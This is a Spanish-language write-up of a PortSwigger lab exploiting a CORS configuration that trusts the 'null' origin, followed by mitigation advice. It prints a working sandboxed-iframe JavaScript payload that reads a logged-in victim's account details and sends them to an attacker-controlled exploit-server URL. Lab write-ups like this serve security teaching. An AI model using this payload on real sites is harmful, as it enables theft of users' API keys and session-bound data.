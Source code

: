 # Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con una aplicación de compras online:
![image](https://github.com/user-attachments/assets/91903113-dba9-47f7-946f-b978688cbf98)

Sabemos que el laboratorio tiene una configuración CORS insegura que confía en origin null, tenemos que crear un script que nos devuelva la API key del administrador, por lo que tenemos que encontrar un endpoint que nos devuelva nuestra API key.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/f627e5ec-a806-4a02-b465-9dad19c47a77)

Dashboard del usuario:
![image](https://github.com/user-attachments/assets/36df1afa-6c74-4564-9b8e-53d8dbcecfd7)

Endpoint `/accountDetails`:
![image](https://github.com/user-attachments/assets/b2f8f53b-f33b-4c18-a1a2-ccd00dc6370a)

Hasta ahora este laboratorio es muy similar al anterior, este último endpoint nos devuelve un montón de información sensible relativa al usuario, incluyendo su API key.

El servidor nos devuelve la cabecera `Access-Control-Allow-Credentials: true`, por lo que sabemos que está haciendo uso del protocolo `CORS`. Enviamos esta petición al `Repeater`:
![image](https://github.com/user-attachments/assets/dad8d53b-62f8-4f7e-993a-4ab78cd18049)


Por lo que procedemos a testear la configuración del protocolo para validar si hay vulnerabilidad.

Inyectamos el header `Origin` para validar si el servidor acepta orígenes arbitrarios:
![image](https://github.com/user-attachments/assets/2efabe9f-16d0-40e6-ae12-e94228aed593)

No nos refleja el header por lo que en este laboratorio el servidor no acepta orígenes arbitrarios.

Procedemos a testear si el servidor acepta la cabecera con el valor `Origin: null`:
![image](https://github.com/user-attachments/assets/7b84f93f-c845-49ac-b50f-2c6813ce560f)

Recibimos la cabecera `Access-Control-Allow-Origin: null` como respuesta del servidor.

El servidor está aceptando específicamente el origen null, lo cual podría permitir a un atacante robar datos sensibles desde un origen sin dominio definido.

Este es el caso ideal para explotar usando el `iframe` con `data: URI` que analizamos antes en la teoría.
Aunque conceptualmente un `data: URI` también produce `Origin: null`, en la práctica:

- Muchos navegadores modernos bloquean solicitudes `withCredentials` desde `data: URI` por razones de seguridad.

- El método fiable y compatible para forzar `Origin: null` es usar `iframe` con `srcdoc` + `sandbox`.
```html
<html>
  <body>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
      <script>
        var req = new XMLHttpRequest();
        req.onload = function() {
          location='https://exploit-0a95009f0337aa9e807d02b401d9008e.exploit-server.net/exploit/log?key=' + encodeURIComponent(this.responseText);
        };
        req.open('GET', 'https://0ae000f70321aaea801903e8001e00fd.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;
        req.send();
      </script>
    ">
    </iframe>
  </body>
</html>
```

## 🔧 Análisis del exploit CORS usando `<iframe srcdoc>`

Este exploit está diseñado para aprovechar una configuración vulnerable de CORS que acepta `Origin: null` y permite credenciales. Utiliza un iframe con `sandbox` y `srcdoc` para ejecutar un script desde un origen no confiable.


---

### 🔎 Desglose del funcionamiento

#### 1. `<iframe ...>`

Se crea un iframe aislado del documento principal, pero con permisos limitados especificados por `sandbox`.

#### 2. `sandbox="allow-scripts allow-top-navigation allow-forms"`

Permite:

* `allow-scripts`: ejecutar código JavaScript dentro del iframe.
* `allow-top-navigation`: redireccionar la página superior mediante `location=`.
* `allow-forms`: enviar formularios (aunque no es esencial para este exploit).

El sandbox impide que el iframe herede el origen del documento principal, por lo que el `Origin` de las solicitudes realizadas será `null`.

#### 3. `srcdoc="..."`

* Incrusta directamente contenido HTML dentro del iframe (una mini página con su propio DOM).
* Es más confiable que `src="data:text/html,..."` y mantiene el `Origin: null`.

#### 4. Script embebido

* Realiza una solicitud con `XMLHttpRequest` al endpoint vulnerable (`/accountDetails`).
* Usa `withCredentials = true` para incluir cookies del usuario autenticado.
* Al recibir la respuesta (la API key del administrador), redirecciona el navegador hacia el exploit server, incluyendo los datos robados como parámetro.

```javascript
location='https://exploit-server/log?key=' + encodeURIComponent(this.responseText);
```

---

### ⚠️ Condiciones necesarias para que funcione

* El servidor vulnerable debe aceptar:

  ```http
  Access-Control-Allow-Origin: null
  Access-Control-Allow-Credentials: true
  ```
* El navegador debe permitir iframes con `srcdoc` (lo hacen todos los modernos).
* El exploit debe ejecutarse desde un origen externo (como el exploit server de PortSwigger).

---

Simulamos levantar el servidor con nuestra página maliciosa haciendo click en `Go te exploit server` y pegando nuestro script en el campo `Body`. Luego hacemos click en `Deliver exploit to victim` para simular que la víctima accede a nuestro servidor y su navegador ejecuta el script:
![image](https://github.com/user-attachments/assets/c3a69524-42a6-440d-9282-979749f56828)


Accedemos a nuestros logs mediante el botón `Access log`:
![image](https://github.com/user-attachments/assets/4c19243c-303f-4f4f-b204-cc2b07b952c6)

Obtenemos la API key del usuario `administrator`:
```http
JUxIIWqGOQxTgD7euX8KWwilYehFwZkT
```

Procedemos a cargar la API key y resolver el laboratorio:
![image](https://github.com/user-attachments/assets/1195f74d-e44b-4ffe-b54e-aae0fe468ced)

---

## ✅ Conclusiones

Este laboratorio expone cómo una configuración insegura de CORS que acepta el origen especial `null` puede ser explotada para robar información sensible de usuarios autenticados.  
El uso de un `iframe` con `srcdoc` permite generar solicitudes con `Origin: null`, y si el servidor responde con `Access-Control-Allow-Origin: null` y `Access-Control-Allow-Credentials: true`, el navegador entrega las cookies de sesión del usuario al atacante.

---

## 🛡️ Recomendaciones

Para mitigar este tipo de vulnerabilidades:

- **Nunca permitir `Access-Control-Allow-Origin: null`** a menos que haya una necesidad muy específica y segura.
- Validar explícitamente el origen en el backend usando una lista blanca de orígenes confiables.
- Evitar el uso de `Access-Control-Allow-Credentials: true` si no es estrictamente necesario.
- Aplicar políticas de seguridad en el navegador como `SameSite` en cookies y `Content-Security-Policy` restrictiva.

---

## 📚 Lecciones aprendidas

- El origen `null` no representa un dominio arbitrario, sino que se genera en contextos como `srcdoc`, `file://`, `data:`, o `sandbox` sin `allow-same-origin`.
- Los ataques CORS no dependen de vulnerabilidades del frontend, sino de **configuraciones inseguras en el backend**.
- El uso de técnicas como `iframe + sandbox + srcdoc` permite ejecutar scripts desde orígenes no confiables de forma completamente funcional en navegadores modernos.
- Las pruebas de CORS deben incluir escenarios menos obvios como `Origin: null`, no solo reflejo directo de orígenes arbitrarios.

---


